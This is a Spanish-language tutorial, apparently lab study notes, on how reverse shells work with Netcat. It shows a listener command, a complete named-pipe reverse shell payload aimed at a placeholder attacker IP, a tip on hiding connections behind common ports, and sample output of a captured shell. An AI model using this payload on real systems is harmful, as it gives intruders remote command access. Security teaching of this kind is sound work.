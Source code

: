 Una reverse shell es una de las técnicas más populares para ganar acceso a un sistema en ciberataques. Las conexiones inician desde el sistema objetivo, lo que ayuda a reducir la detección de firewalls y otras medidas de seguridad.

-------------------
<h2>¿Cómo funcionan las reverse shells?</h2>

------------------------
<h4>Configura un Listener Netcat (nc)</h2>
Entendamos ahora cómo funcionan las reverse shells en un escenario práctico usando Netcat. Esta herramienta soporta varios sistemas operativos y permite leer y escribir a través de una red.

Como ya hemos dicho, la conexión la comienza la máquina víctima, por lo que la máquina atacante estará esperando una conexión. Usaremos Netcat para escuchar. Usaremos el comando `nc -lvnp 443`.

```shell
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```

El comando usa las opciones:

- `-l`: Indica a Netcat que escuche (listen) o espere por una conexión.
- `-v`: Activa verbose para ver más información.
- `-n`: Previene que las conexiones usen DNS lookup por lo que lo hará a partir de la IP.
- `-p`: Indica el puerto que utilizaremos, en nuestro caso el 443.

Puedes usar cualquier puerto para establecer la conexión pero los hackers suelen usar puertos conocidos utilizados por otras aplicaciones para enmascarar las conexiones.

-------------------------
<h4>Obteniendo una Reverse Shell</h4>
Una vez que tenemos nuestro listener configurado, el objetivo debe ejecutar lo que se conoce como payload de reverse shell. Normalmente este payload abusa una vulnerabilidad o un acceso no autorizado. Hay mucha variedad de payloads, que dependerán de las herramientas y el sistema operativo que sea atacado. Podemos ver algunos ejemplos [aquí](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

Analicemos un payload de ejemplo:

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <IP_ATACANTE> <PUERTO_ATACANTE> >/tmp/f`

- `rm -f /tmp/f`: Elimina cualquier archivo pipe existente en `/tmp/f`. Esto es para crear una nueva pipe ahí sin conflictos.
- `mkfifo /tmp/f`: Crea una pipe o FIFO (First In First Out) en `/tmp/f`.
- `cat /tmp/f`: Lee la información de la pipe (espera input).
- `| bash -i 2>&1`: El output de cat se pipea a la instancia de shell (`bash -i`), que permite al atacante ejecutar comandos de manera interactiva. El `2>&1` redirecciona los errores al output (stderr a stdout), asegurándose de que cualquier error se manda de vuelta al atacante.
- `| nc IP_ATACANTE PUERTO ATACANTE`: Pipea el output de la shell hacia el atacante por medio de `nc` con la IP y el puerto.
- `>/tmp/f`: Esta parte manda el output de los comandos de vuelta hacia el pipe, permitiendo comunicación bidireccional.

>[!IMPORTANT] Esto es una "named pipe", no una pipe normal. Una normal no permite comunicación bidireccional con la misma.

----------------------------
<h4>El Atacante Recibe la Shell</h4>
Una vez que el payload es ejecutado, el atacante verá una reverse shell en su Netcat, permitiéndole ejecutar comandos en el sistema remoto.

```shell
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```

